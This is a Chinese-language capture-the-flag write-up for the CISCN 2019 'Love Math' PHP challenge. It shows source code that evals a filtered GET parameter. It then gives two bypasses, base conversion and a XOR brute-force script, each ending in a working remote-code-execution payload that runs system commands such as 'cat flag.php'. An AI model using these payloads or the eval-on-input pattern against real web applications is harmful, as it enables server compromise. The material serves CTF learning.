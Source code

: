 # \[CISCN 2019 初赛]Love Math

## \[CISCN 2019 初赛]Love Math

## 考点



## wp

给了源码，只能使用白名单里面的函数

```php
<?php
error_reporting(0);
//听说你很喜欢数学，不知道你是否爱它胜过爱flag
if(!isset($_GET['c'])){
    show_source(__FILE__);
}else{
    //例子 c=20-1
    $content = $_GET['c'];
    if (strlen($content) >= 80) {
        die("太长了不会算");
    }
    $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]'];
    foreach ($blacklist as $blackitem) {
        if (preg_match('/' . $blackitem . '/m', $content)) {
            die("请不要输入奇奇怪怪的字符");
        }
    }
    //常用数学函数http://www.w3school.com.cn/php/php_ref_math.asp
    $whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
    preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/', $content, $used_funcs);  
    foreach ($used_funcs[0] as $func) {
        if (!in_array($func, $whitelist)) {
            die("请不要输入奇奇怪怪的函数");
        }
    }
    //帮你算出答案
    eval('echo '.$content.';');
} 
```

已知条件:

1. 传入的参数 c 进入 eval 函数中执行
2. c 的长度小于 80
3. c 中不含有黑名单中的字符
4. c 中的字符串必须在白名单中
5. 可以执行的函数只有白名单中的

思路:

1. 使用白名单里的字符构造 RCE 函数
2. 构造出 `$_GET/$_POST`传参，防止 c 长度过长
3. `!@#$%^&*()-+.{}|`等未被过滤
4. 这里在 url 栏输入 +\&# 是会被浏览器分别解析为空格，参数连接符，锚点，应使用URL编码后传入

### 第一种方法

通过进制转换来构造，16进制包含`0-9a-f`，没有包含所有字符，很难利用，但是36进制包含`0-9a-z`

例如，`hex2bin("5f474554")` 就是 `_GET`

![](<../.gitbook/assets/image (3).png>)

![](<../.gitbook/assets/image (32).png>)

最后就构造出来了构造出来了 `_GET`，是`base_convert(37907361743,10,36)(dechex(1598506324));`

在获取 GET/POST 的参数时，可以使用 `$_GET["a"]` 但是还有另外一种用法，使用$\_GET{a}。另外，PHP不加引号的内容，默认作为字符串处理，会抛出警告。

如此，把`base_convert(37907361743,10,36)(dechex(1598506324))`赋值给`pi`，在使用$pi，就可以获得`$_GET`，再进行传参就可以了，即如下

```php
<?php
$pi=base_convert(37907361743,10,36)(dechex(1598506324)); // _GET
($$pi){pow}($$pi{abs}); // $_GET["pow"]($_GET["abs"])
```

payload

```
?c=$pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi){pow}($$pi{abs})&pow=system&abs=cat flag.php
```

### 第二种方法

通过异或来构造，在 php 中可以对字符串进行异或，其原理就是对字符串中每个字符对应的 ASCII 值进行异或，这就要通过爆破来进行了

```php
<?php
$whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
foreach($whitelist as $w){
    for($a=1;$a<999999;$a++){
        $res = $w ^ decoct($a);
        if(strpos($res,"_POST")===0){
            echo $w.'   '.$a.'   ';
            echo $res;
            echo "\n";
        }
    }
}
```

![](<../.gitbook/assets/image (19) (1).png>)

最终 payload: `?c=$pi=${(hexdec^decoct(31737))};$pi{pow}($pi{abs});`
